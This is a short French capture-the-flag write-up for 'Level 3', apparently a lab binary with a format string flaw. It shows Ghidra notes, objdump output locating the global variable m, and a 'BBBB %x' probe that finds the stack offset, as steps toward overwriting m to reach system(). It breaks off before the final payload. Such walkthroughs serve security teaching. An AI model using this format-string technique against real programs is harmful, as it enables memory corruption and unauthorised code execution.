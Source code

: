 # Level 3

![Ghidra level3, fonction main et v](./ghidra-level3.png)



On a une variable globale qui est `m`, cette variable est par default sur 0. L'objectif c'est de la modifier pour appeler le `system()`.

On va pouvoir le modifier via `printf` et la faille, pour ce faite il nous faut l'addresse de `m`. on va utiliser objdump et afficher le symbol table.

```
$ objdump -t level3

level3:     file format elf32-i386

SYMBOL TABLE:
080484a4 g     F .text	00000076              v
0804983c g       .data	00000000              __data_start
00000000       F *UND*	00000000              system@@GLIBC_2.0
080483f0 g     F .text	00000000              _start
080485f8 g     O .rodata	00000004              _fp_hw
0804988c g     O .bss	00000004              m
08049880 g     O .bss	00000004              stdout@@GLIBC_2.0
```
On va pouvoir lancer le programme avec notre propre `format string` et afficher la mémoire de la stack. En commençant par trouver l'adresse / offset du paramètre.
```
$ echo "BBBB %x %x %x %x %x %x" | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825
```
